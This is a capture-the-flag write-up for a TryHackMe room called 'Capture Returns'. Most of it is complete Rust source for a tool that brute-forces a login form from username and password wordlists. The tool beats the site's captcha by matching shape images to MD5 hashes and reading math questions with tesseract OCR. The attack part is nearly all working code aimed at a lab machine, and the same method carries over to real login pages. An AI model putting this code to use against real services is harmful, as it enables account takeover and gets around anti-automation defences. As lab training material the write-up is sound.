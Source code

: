 # Capture Returns

https://tryhackme.com/r/room/capturereturns, rated Hard

The key idea of this room is that it provides wordlists for usernames and passwords, and you have to brute force a login form. Except, every three fails or so the room will present a captcha, where you have to respond with one of three shapes or solve a math question. Both math and shapes are presented as an image, meaning normal HTML response parsing will not work.

The most common solution is to use some sort of OCR tool, e.g. [tesseract, a command line OCR engine on linux](https://manpages.ubuntu.com/manpages/trusty/man1/tesseract.1.html). While the different shapes presented use the same images, so getting their base64 content or calculating hashes is sufficient to work out what shape is being requested, OCR is required to read the math expressions and then come up with an answer.

For me, I did this with Rust, with the following folder structure:

```
solver
  Cargo.toml
  usernames.txt
  passwords.txt
  src/
    main.rs
```

And then run this using `cargo run` from the solver folder on the attack box. This will download the required packages from cargo.toml and then run the code. It needs to be run on linux, and tesseract must be installed (which it is on the THM attack box).

Here is Cargo.toml:

```yaml
[package]
name = "capture-returns"
version = "0.1.0"
edition = "2021"

# See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html

[dependencies]
base64 = "0.21.5"
eval = "0.4.3"
md5 = "0.7.0"
reqwest = { version = "0.11.22", features = ["blocking"] }
```

None of this needs to be altered. However in the next file, main.rs, the url of the target instance needs to be updated. Additionally, the code is left in place to use a proxy if you so desire, e.g. going through burp or a ssh proxy or similar (shouldnt be needed for the VPN, but the VPN is slow and not recommended for this brute forcing):

```rust
// should be placed in /src/main.rs as normal

use std::{collections::HashMap, process::{Command, Stdio}};
use reqwest::{blocking::Client, Proxy, redirect::Policy};
use base64::{engine::general_purpose, Engine as _};
use eval::eval;

const USERNAMES_DATA: &str = include_str!("../usernames.txt"); // these two files from the challenge should be next to Cargo.toml
const PASSWORDS_DATA: &str = include_str!("../passwords.txt");

fn main() {
    let target_ip = "10.10.56.26"; // update to target machine ip

    let usernames: Vec<&str> = USERNAMES_DATA.split_ascii_whitespace().collect();
    let passwords: Vec<&str> = PASSWORDS_DATA.split_ascii_whitespace().collect();

    //let proxy = Proxy::http("http://172.23.160.1:8080").unwrap(); // uncomment if you want to proxy to proxy - this was used to send data through burp
    let client = Client::builder()
        .pool_max_idle_per_host(0)
        .pool_idle_timeout(None)
        .redirect(Policy::none())
        .build().unwrap(); // comment out if using a proxy
        //.proxy(proxy).build().unwrap(); // uncomment if you want a proxy

    let url = format!("http://{target_ip}/login");

    for username in usernames.iter() {
        for password in passwords.iter() {
            println!("{username}:{password}");
            let mut form_data = HashMap::new();
            form_data.insert("username", username);
            form_data.insert("password", password);

            let response = client.post(&url)
                .form(&form_data)
                .send().unwrap();

            let body = response.text().unwrap();

            if body.contains("Invalid username or password") {
                continue;
            } else if body.contains("You need to successfully solve 3 captchas in a row") {
                let mut result = body.to_string();
                while result.contains("You need to successfully solve 3 captchas in a row") {
                    result = solve_capture_body(&client, &url, &result);
                }
            } else {
                println!("{body}");
                return;
            }
        }
    }

}

fn solve_capture_body(client: &Client, url: &str, body: &str) -> String {
    let image_start = body.find("data:image/png;base64,").unwrap() + 22;
    let image_end = body[image_start..].find("\">").unwrap();
    let image_base64 = &body[image_start..image_start+image_end]; // could be done with regex but bah

    let answer = 
        if body.contains("Describe the shape below") {
            let image_bytes = general_purpose::STANDARD.decode(image_base64).unwrap();
            let digest = md5::compute(image_bytes);
            let digest = format!("{:x}", digest);
            match digest.as_str() {
                "b889710920400c282aa6c665d7a0aef0" => "square".to_string(),
                "083db3907af568c3f08e516949bab93e" => "circle".to_string(),
                "8743634f70b2d273a8eaf64412c96490" => "triangle".to_string(),
                _ => {
                    println!("unknown image");
                    "".to_string()
                }
            }
        } else {
            let cmd1 = Command::new("echo")
                .arg("-n")
                .arg(image_base64)
                .stdout(Stdio::piped())
                .spawn()
                .expect("Failed to start command1");

            let cmd2 = Command::new("base64")
                .arg("-d")
                .stdin(Stdio::from(cmd1.stdout.unwrap()))
                .stdout(Stdio::piped())
                .spawn()
                .expect("Failed to start command2");

            let cmd3 = Command::new("tesseract")
                .arg("stdin")
                .arg("stdout")
                .stdin(Stdio::from(cmd2.stdout.unwrap()))
                .output()
                .expect("Failed to start command3");

            let result = String::from_utf8_lossy(&cmd3.stdout);
            let result = result.replace("?", "").replace("=", "");
            let equation = result.trim();

            let result = eval(equation).unwrap();
            format!("{result}")
        };
    
        println!("captcha_answer: {answer}");

    let mut form_data = HashMap::new();
    form_data.insert("captcha", answer);

    let response = client.post(url)
        .form(&form_data)
        .send().unwrap();

    response.text().unwrap()
}
```

I used md5 hashes to identify the images, which unnecessary but interesting to code - the alternative would be just recognising sequences of base64 in their content, or decoding some of the bytes that differed them /shrug.

This code will brute force the login form, while printing its captcha responses as necessary, and then finally if a login succeeds it will read the THM flag for you.
